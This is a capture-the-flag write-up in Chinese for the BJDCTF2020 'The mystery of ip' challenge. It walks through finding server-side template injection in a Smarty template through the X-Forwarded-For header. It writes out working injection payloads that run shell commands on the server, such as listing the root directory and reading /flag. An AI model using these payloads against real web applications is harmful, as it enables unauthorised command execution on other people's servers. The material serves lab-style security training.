 # [BJDCTF2020]The mystery of ip 1

- 进入页面，点击 `hint.php` ，查看源码，发现了 `<!-- Do you know why i know your ip? -->`

> <img src="../../IMG3/Screenshot 2024-06-16 194927.png">

- 既然是回显ip，那多半是 `X-Forwarded-For` ，发送到Repeater，添加X-Forwarded-For，发现输入什么回显什么

> <img src="../../IMG3/Screenshot 2024-06-16 195428.png">

- 既然是请求头回显，那一定是SSTI注入，查询配置

`X-Forwarded-For: {config}`

> <img src="../../IMG3/Screenshot 2024-06-16 200046.png">

- 确定是Smarty模板，查询根目录

`X-Forwarded-For: {if system("ls /")}{/if}`

> <img src="../../IMG3/Screenshot 2024-06-16 200317.png">

- 获取flag

`X-Forwarded-For: {if system("cat /flag")}{/if}`

> <img src="../../IMG3/Screenshot 2024-06-16 200405.png">